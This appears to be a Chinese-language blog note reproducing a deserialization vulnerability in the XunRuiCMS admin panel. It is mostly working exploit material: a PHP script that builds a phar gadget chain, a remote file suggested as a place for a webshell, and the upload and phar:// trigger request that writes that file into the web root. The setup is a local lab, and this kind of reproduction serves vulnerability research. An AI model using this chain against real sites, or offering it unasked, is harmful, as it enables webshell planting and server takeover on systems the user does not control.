 ```yaml
---
title: 讯睿cms后台反序列化漏洞
date: 2024-08-04 22:54:17
secret: "true"
---
```


tips:如果是本地小皮搭建，需要使用apache为中间件，且php.ini的phar.readonly需要为Off


```
[Phar]
; http://php.net/phar.readonly
phar.readonly = Off

```


前提条件是需要登录后台，

首先自己本地使用下方代码生成``phar.phar``

```
<?php

namespace {

    ini_set('display_errors', 1);

    ini_set('display_startup_errors', 1);

    error_reporting(E_ALL);

}

namespace CodeIgniter\Cache\Handlers {

    use CodeIgniter\Session\Handlers\MemcachedHandler;


    class RedisHandler {

        protected $redis;

        public function __construct() {

            // 实例化不同命名空间中的 RedisHandler 类

            $this->redis = new MemcachedHandler();

        }

    }

}

namespace CodeIgniter\Session\Handlers{

    use CodeIgniter\HTTP\CURLRequest;

    class MemcachedHandler {

        public $memcached;

        public $lockKey;

        public function __construct()

        {

            $this->lockKey='http://127.0.0.1/88.php'; //远程服务器所需要准备的文件

            $this->memcached = new CURLRequest();

        }

    }

}

namespace CodeIgniter\HTTP{

    class CURLRequest
    {
        protected $config = [];
        public function __construct()
        {

           $this->config = [

            // 'timeout'         => 1.0,

            // 'connect_timeout' => 150,

            'debug'           => "../../../WWW/XunRuiCMS-Study/666.php", //所生成马的文件，建议绝对路径，这样会生成在php.exe的目录

            'verify'          => true,

        ];
        }
    }

}

// 全局命名空间

namespace {

    use CodeIgniter\Cache\Handlers\RedisHandler;

    $phar = new Phar("phar.phar");

    $phar->startBuffering();

    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub

    $o = new RedisHandler();

    $o -> data='hu3sky';

    $phar->setMetadata($o); //将自定义的meta-data存入manifest

    $phar->addFromString("test.txt", "test");

    //签名自动计算

    $phar->stopBuffering();

  
  

//    $o = new RedisHandler();

//    print_r(urlencode(serialize($o)));

}
```

``88.php``代码为(可放马)
```
<?php

header("Content-Type: application/json <?php phpinfo();?>");
```

然后找到文章的附件上传处
![Pastedimage20240804230432.png](../资源文件/图片/Pasted-image-20240804230432.png)]

上传``phar.phar``改后缀为``.zip``
可以在这边查看路径，文件名称
![Pastedimage20240804231218.png](../资源文件/图片/Pasted-image-20240804231218.png)]

然后在另开一个页面
```
http://xunruicms-study:8009/admin.php?c=api&m=test_avatar_domain

image[avatar_path]=phar://./uploadfile/202408/37738d115ba9223.zip
```

![Pastedimage20240804231519.png](../资源文件/图片/Pasted-image-20240804231519.png)]
即可在指定目录生成文件

![123.png](../资源文件/图片/123.png)
